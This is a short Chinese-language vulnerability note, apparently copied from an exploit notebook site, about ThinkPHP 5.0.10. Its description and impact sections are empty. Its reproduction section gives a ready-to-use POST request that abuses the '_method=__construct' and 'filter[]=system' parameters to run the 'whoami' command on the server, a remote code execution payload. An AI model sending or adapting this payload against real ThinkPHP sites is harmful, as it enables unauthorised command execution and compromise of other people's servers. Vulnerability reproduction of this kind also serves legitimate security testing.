 # Thinkphp 5.0.10

> 原文：[http://book.iwonder.run/0day/Thinkphp/17.html](http://book.iwonder.run/0day/Thinkphp/17.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

post 提交

```
http://www.0-sec.org/public/index.php?s=index/index/index

s=whoami&_method=__construct&method&filter[]=system 
```

